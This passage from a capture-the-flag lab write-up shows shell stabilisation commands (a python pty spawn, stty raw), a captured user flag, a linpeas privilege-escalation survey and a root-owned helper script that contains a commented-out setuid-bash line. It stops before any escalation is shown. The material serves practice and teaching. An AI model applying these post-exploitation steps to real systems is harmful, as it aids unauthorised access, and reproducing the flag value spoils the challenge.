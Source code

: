 ```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250604170531.png)

Got our first flag:

```
metadata@ac11496ac62b:~$ cat user.txt
f5d22841e337cab01739e59cce3275e9
```

We also got another file named `pass.txt` owned by root:

```
metadata@ac11496ac62b:~$ ls -la
total 24
drwxr-x--- 1 metadata metadata  112 Aug 29  2024 .
drwxr-xr-x 1 root     root       14 Aug 29  2024 ..
-rw------- 1 metadata metadata    5 Aug 29  2024 .bash_history
-rw-r--r-- 1 metadata metadata  220 Aug 29  2024 .bash_logout
-rw-r--r-- 1 metadata metadata 3771 Aug 29  2024 .bashrc
-rw-r--r-- 1 metadata metadata  807 Aug 29  2024 .profile
-rw------- 1 root     root       15 Aug 29  2024 pass.txt
-rw------- 1 metadata metadata   33 Aug 29  2024 user.txt
```

We cannot read this file, let's use linpeas again then:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250604171039.png)

Inside of `/usr/local/bin`, we can find:

```
metadata@ac11496ac62b:/tmp$ ls -la /usr/local/bin
total 4
drwxr-x--- 1 metadata metadata 28 Aug 29  2024 .
drwxr-xr-x 1 root     root     16 Aug  1  2024 ..
-rwxr-xr-x 1 root     root     79 Aug 29  2024 metadatosmalos
```

We got something called `metadatosmalos`

```
metadata@ac11496ac62b:/tmp$ cat /usr/local/bin/metadatosmalos
#!/bin/bash

#chmod u+s /bin/bash

whoami | grep 'pass.txt'

# metadata is bad
```

